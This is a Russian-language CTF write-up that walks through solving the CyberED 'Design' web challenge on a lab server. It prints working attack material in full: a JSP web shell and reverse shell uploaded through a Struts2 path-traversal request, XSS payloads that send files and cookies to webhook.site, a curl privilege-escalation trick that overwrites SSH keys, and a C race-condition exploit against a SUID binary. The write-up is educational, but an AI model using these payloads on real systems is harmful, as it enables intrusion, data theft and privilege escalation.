# OneTask – April

## Название: Design
**Сложность:** Medium  
**Writeup by Mr.Zapi**  
**Категория:** WEB  

## Текст задания
**DesignCybered** – это дизайнерская компания c командой профессионалов, которая поможет воплотить ваши идеи в реальность, создавая визуальные концепции, которые впечатляют. В данный момент доступен только лендинг компании, но компания развивает функционал сайта. Пользователи могут изучить информацию о компании и в будущем подать заявку на дизайн своего бизнеса.

---

## Решение

Первым делом запустим таску, и подключимся к ней через openvpn:  
```bash
sudo openvpn cybered-labs-3196.ovpn
```

Проверим подключение и запустим Nmap скан:  
  
```bash
nmap -A -Pn 10.10.0.28 -v
```

  
Видим сайт, два ssh порта и PostgreSQL 9.6.0.

Закинем домен в `/etc/hosts` и запустим скан сабдоменов:  
```bash
sudo nano /etc/hosts
```



```bash
ffuf -w /usr/share/wordlists/subdomains-top1million-110000.txt -u "http://design.cybered" -H "Host:FUZZ.design.cybered" -fs 273
```

  
`-fs 273` фильтрует все ответы, длина которых равна 273.

Проверяем свой IP в VPN туннеле:  
```bash
ip a
```



На сайте `http://beta.design.cybered` можно обнаружить форму для отправки данных, после нескольких проверок можно обнаружить, что она уязвима к XSS атаке:  
```html

```

Я использовал вот такую нагрузку, чтобы украсть куки сессии у бота с сервера.

После отправки данных можно увидеть запрос на `/beta/order.action` в адресной строке:  


Можно запустить любой сканер каталогов и обнаружить `login.action`, также запустим `nuclei` на этот путь, для обнаружения возможных уязвимостей:  


Так как мы в одной подсети, можно локально у себя поднять питон сервак и принять на него куки:  


Далее можно зайти в админку, подставив куки через F12:  


Если посмотреть исходный код страницы, то там будет путь до первой части флага:  
  
**Фрагмент флага:** `_@ll0weD_but`

Тем временем, `nuclei` нашёл medium уязвимость:  


Это dev mod в на java сервере, но очень ограниченный, если немного погуглить, то можно найти application:  


Тут находится путь, куда загружаются файлы.

Так как на сервере есть java, можно найти эксплоит на struts2, который находится на серваке, то там будет часть кода, которую мы сейчас используем для получения rce:  
[https://github.com/EQSTLab/CVE-2024-53677/blob/main/CVE-2024-53677.py](https://github.com/EQSTLab/CVE-2024-53677/blob/main/CVE-2024-53677.py)

В данном эксплойте можно найти строки:  
```python
def exploit(self) -> None:
    files = {
        'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
        'top.UploadFileName': (None, self.path),
    }
```

То есть, при отправке данных через burp надо будет просто добавить ещё одно поле, куда мы и укажем путь до загруженного нами файла.

Я использовал данный exploit:  
[https://github.com/LaiKash/JSP-Reverse-and-Web-Shell/blob/main/shell.jsp](https://github.com/LaiKash/JSP-Reverse-and-Web-Shell/blob/main/shell.jsp)

```jsp
<%

    /*
     * Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.
     * If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
     * Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing 
     * the command specified in the HTML form). This is to avoid to keep it simple.
     */

%>
<%@page була import="java.lang.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>
<html>
<head>
    <title>jrshell</title>
</head>
<body>
<form METHOD="POST" NAME="myform" ACTION="">
    <input TYPE="text" NAME="shell">
    <input TYPE="submit" VALUE="Send">
</form>
<pre>
<%

    // Define the OS
    String shellPath = null;
    try
    {
        if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
            shellPath = new String("/bin/sh");
        } else {
            shellPath = new String("cmd.exe");
        }
    } catch( Exception e ){}
    // INNER HTML PART
    if (request.getParameter("shell") != null) {
        out.println("Command: " + request.getParameter("shell") + "\n<BR>");
        Process p;
        if (shellPath.equals("cmd.exe"))
            p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
        else
            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
            out.println(disr);
            disr = dis.readLine();
        }
    }
    // TCP PORT PART
    class StreamConnector extends Thread
    {
        InputStream wz;
        OutputStream yr;
        StreamConnector( InputStream wz, OutputStream yr ) {
            this.wz = wz;
            this.yr = yr;
        }
        public void run()
        {
            BufferedReader r  = null;
            BufferedWriter w = null;
            try
            {
                r  = new BufferedReader(new InputStreamReader(wz));
                w = new BufferedWriter(new OutputStreamWriter(yr));
                char buffer[] = new char[8192];
                int length;
                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
                {
                    w.write( buffer, 0, length );
                    w.flush();
                }
            } catch( Exception e ){}
            try
            {
                if( r != null )
                    r.close();
                if( w != null )
                    w.close();
            } catch( Exception e ){}
        }
    }
 
    try {
        Socket socket = new Socket( "192.168.119.128", 8081 ); // Replace with wanted ip and port
        Process process = Runtime.getRuntime().exec( shellPath );
        new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
        new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
        out.println("port opened on " + socket);
     } catch( Exception e ) {}
%>
</pre>
</body>
</html>
```

Если объединить все данные, которые мы получили выше, то можно создать вот такой запрос в burp:  
```http
POST /beta/api/changeProfile.action HTTP/1.1
Host: beta.design.cybered
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
Accept-Language: en-US,en;q=0.9
Cache-Control: max-age=0
Origin: http://beta.design.cybered
Referer: http://beta.design.cybered/beta/api/changeProfile
Upgrade-Insecure-Requests: 1
Cookie: JSESSIONID=node0wnb0xypyiwj81jut768ev9ehc58.node0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Length: 1218

------WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Disposition: form-data; name="profile.firstName"
john
------WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Disposition: form-data; name="profile.lastName"
john
------WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Disposition: form-data; name="profile.email"
123
------WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Disposition: form-data; name="profile.age"
123
------WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Disposition: form-data; name="profile.avatar"; filename="hop.jsp"
Content-Type: application/octet-stream

<%

    /*
     * Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.
     * If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
     * Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing 
     * the command specified in the HTML form). This is to avoid to keep it simple.
     */

%>
<%@page import="java.lang.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>
<html>
<head>
    <title>jrshell</title>
</head>
<body>
<form METHOD="POST" NAME="myform" ACTION="">
    <input TYPE="text" NAME="shell">
    <input TYPE="submit" VALUE="Send">
</form>
<pre>
<%

    // Define the OS
    String shellPath = null;
    try
    {
        if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
            shellPath = new String("/bin/sh");
        } else {
            shellPath = new String("cmd.exe");
        }
    } catch( Exception e ){}
    // INNER HTML PART
    if (request.getParameter("shell") != null) {
        out.println("Command: " + request.getParameter("shell") + "\n<BR>");
        Process p;
        if (shellPath.equals("cmd.exe"))
            p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
        else
            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
            out.println(disr);
            disr = dis.readLine();
        }
    }
    // TCP PORT PART
    class StreamConnector extends Thread
    {
        InputStream wz;
        OutputStream yr;
        StreamConnector( InputStream wz, OutputStream yr ) {
            this.wz = wz;
            this.yr = yr;
        }
        public void run()
        {
            BufferedReader r  = null;
            BufferedWriter w = null;
            try
            {
                r  = new BufferedReader(new InputStreamReader(wz));
                w = new BufferedWriter(new OutputStreamWriter(yr));
                char buffer[] = new char[8192];
                int length;
                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
                {
                    w.write( buffer, 0, length );
                    w.flush();
                }
            } catch( Exception e ){}
            try
            {
                if( r != null )
                    r.close();
                if( w != null )
                    w.close();
            } catch( Exception e ){}
        }
    }
 
    try {
        Socket socket = new Socket( "192.168.119.128", 8081 ); // Replace with wanted ip and port
        Process process = Runtime.getRuntime().exec( shellPath );
        new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
        new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
        out.println("port opened on " + socket);
     } catch( Exception e ) {}
%>
</pre>
</body>
</html>
------WebKitFormBoundaryfrG1NKAulXmTfFwj
Content-Disposition: form-data; name="top.profile.avatarFileName"
../../../../../../../tmp/jetty-0_0_0_0-8080-beta_war-_beta-any-13699632876443524533/webapp/ROOT/shell.jsp
------WebKitFormBoundaryfrG1NKAulXmTfFwj--
```

Теперь осталось запустить:  
```bash
nc -lvnp 1337
```
и перейти по пути `/ROOT/hop.jsp`:  
  


Далее я прокину свои публичные ssh ключи:  
  


Обычно, если в CTF что-то находится в `/opt` то это нужно для решения таски:  


Тут находятся: бинарь с SUID битом для дальнейшего повышения привилегий.

Немного просмотрев каталоги, можно найти git архив:  


Этот архив можно выгрузить через scp:  
```bash
scp -P 2222 web-user@10.10.0.40:/opt/jetty/webapps/uploads/git_archive.tar.gz .
```



После разархивации нужно сделать:  
```bash
git restore .
```



Тут и находится 2 часть флага, а также в каталоге `git_archive/src/main/java/org/apache/struts/models` есть файл `DatabaseHelper.java`.

В нём хранятся креды от БД Postgre, которая была на 5432 порту. Для подключения к ней я воспользуюсь утилитой DBeaver:  


В ней находятся креды от второго пользователя:  


Далее через `su` можно свапнуть подключение на другого пользователя и вернуть в каталог `/opt`:  


Ранее можно было найти бинарь `curl`, к которому у romulus есть права на исполнение, далее очень легко повысить привилегии через GTFObins:  
[https://gtfobins.github.io/gtfobins/curl/](https://gtfobins.github.io/gtfobins/curl/)

Следуя этой инструкции получим доступ к 3 пользователю:  


```bash
URL=http://100.100.133.44:8000/authorized_keys
LFILE=/home/remus/.ssh/authorized_keys
./curl $URL -o $LFILE
```

Файл подгрузился, теперь можно подключаться по ssh к remus:  


У remus в его домашнем каталоге есть ещё один бинарь с SUID, но в этот раз он нестандартный:  


Также можно выгрузить его через scp и ревёрснуть. Более подробный ревёрс я показывал в видео, сейчас пробегусь вкратце.

Этот бинарь может читать файлы на системе, но с условиями, а именно нужно, чтобы: пользователь был remus, это был нерегулярный файл (не симлинка) и запрещается, чтобы в названии файла встречались слова: flag, id_rsa или shadow:  
  
  


Для решения этой задачи воспользуюсь уязвимость race condition и буду быстро свапать обычный файл и симлинк на файл с последней частью флага, чтобы в один момент времени прошёл один if, а за ним сразу же и два оставшихся. Bash для такого слишком медленный, нужен код на C в 2 потоках.

Вот моя версия:  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <fcntl.h>

#define BINARY_PATH "/home/remus/readfile"
#define SAFE_FILE "./file"
#define LINK_FILE "./link"

void *swap_files(void *arg) {
    char temp_file[] = "/tmp/temp";
    while (1) {
        // Меняем файлы местами с использованием временного файла
        if (rename(SAFE_FILE, temp_file) == -1) {
            perror("Rename safe to temp failed");
        }
        if (rename(LINK_FILE, SAFE_FILE) == -1) {
            perror("Rename link to safe failed");
        }
        if (rename(temp_file, LINK_FILE) == -1) {
            perror("Rename temp to link failed");
        }
    }
    return NULL;
}

void *run_binary(void *arg) {
    while (1) {
        int pipefd[2];
        if (pipe(pipefd) == -1) {
            perror("Pipe failed");
            exit(1);
        }
        pid_t pid = fork();
        if (pid == -1) {
            perror("Fork failed");
            exit(1);
        } else if (pid == 0) {
            // Дочерний процесс: перенаправляем stdout и stderr в pipe
            close(pipefd[0]); // Закрываем конец чтения
            dup2(pipefd[1], STDOUT_FILENO); // Перенаправляем stdout
            dup2(pipefd[1], STDERR_FILENO); // Перенаправляем stderr
            close(pipefd[1]); // Закрываем после дублирования
            // Запускаем бинарник с одним аргументом (SAFE_FILE)
            char *args[] = {BINARY_PATH, SAFE_FILE, NULL};
            execv(BINARY_PATH, args);
            perror("Exec failed");
            exit(1);
        }
        // Родительский процесс: читаем из pipe и выводим в терминал
        close(pipefd[1]); // Закрываем конец записи
        char buffer[1024];
        ssize_t nread;
        while ((nread = read(pipefd[0], buffer, sizeof(buffer) - 1)) > 0) {
            buffer[nread] = '\0';
            printf("%s", buffer);
            fflush(stdout);
        }
        close(pipefd[0]);
        // Ждём завершения дочернего процесса
        waitpid(pid, NULL, 0);
    }
    return NULL;
}

int main() {
    pthread_t swap_thread, binary_thread;
    // Создаём поток для подмены файлов
    if (pthread_create(&swap_thread, NULL, swap_files, NULL) != 0) {
        perror("Failed to create swap thread");
        exit(1);
    }
    // Создаём поток для запуска бинарника
    if (pthread_create(&binary_thread, NULL, run_binary, NULL) != 0) {
        perror("Failed to create binary thread");
        exit(1);
    }
    // Ждём завершения потоков (они работают бесконечно)
    pthread_join(swap_thread, NULL);
    pthread_join(binary_thread, NULL);
    return 0;
}
```

Остаётся загрузить его на сервер, создать пустой файл с названием `file` и симлинку `link` на `/root/root_flag`:  
  


Компилирую C код:  
```bash
gcc -o race tace.c
```

После запуска можно найти в куче мусора последнюю часть флага:  


Этот код работает таким образом, что бинарь `./readfile` сначала пытается прочитать только что созданный нами пустой `file`, в этот момент, второй поток кода очень быстро меняет местами `link` -> `file` `file` -> `link` и если успеет пройти проверка на то, что что это это обычный файл, а не симлинка и в тот же момент, до попадания в следующий if моя прога успеет свапнуть местами симлинк и файл, в таком случае бинарь `./readfile` прочитает флаг рута.

**Итоговый флаг:** `CyberED{N0_H@ck1Ng_@ll0weD_but_Sn5ak_1n}`

Ещё был второй вариант решения, через xss, которым со мной любезно поделились `@john01bad` и `@denis_bardak` уже после сдачи флага.

Суть заключалась в том, что можно было выгрузить `.git` без rce и загрузки файла с помощью вот таких нагрузок. Парни для решения использовали сервис для вебхуков:  
```javascript
<script>
fetch("http://localhost:8080/")
  .then(response => response.text())
  .then(data => fetch("https://webhook.site/2321", {method: "POST", body: data}));
</script>
```

  


```javascript
<script>
fetch('http://localhost:8080/uploads/git_archive.tar.gz')
  .then(response => response.arrayBuffer())
  .then(buffer => {
    let binary = '';
    let bytes = new Uint8Array(buffer);
    let len = bytes.byteLength;
    for (let i = 0; i < len; i++) {
      binary += String.fromCharCode(bytes[i]);
    }
    let base64Data = btoa(binary);
    
    fetch('https://webhook.site/', {
      method: 'POST',
      headers: {
        'Content-Type': 'text/plain'
      },
      body: base64Data
    });
  });
</script>
```

После чего можно было выгрузить с помощью base64, раскодировать данные и засунуть их в файл.

### После получения данных от базы данных и от пользователя с сервера соответственно
Хочу предложить ещё один способ получить rce, но в этот раз через Postgre 9.6.0 с помощью уязвимости **CVE-2019-9193**:  
[https://www.exploit-db.com/exploits/51247](https://www.exploit-db.com/exploits/51247)

Можно воспользоваться MSFconsole:  
  
  


Далее с помощью Python создадим нормальный pty и сменим пользователя:  


Опять прокину мои ключи:  


И наконец опять получу доступ по ssh:  


Далее развилок в решении я не смог найти.

---

## Благодарности
Хотел бы выразить благодарность организаторам **CyberED** и отдельно создателю этой таски. Получилось очень необычно и интересно. Люди с совершенно разным мышлением могли прийти к финальной точке так, как им было привычнее, просто супер!

Всем удачи!
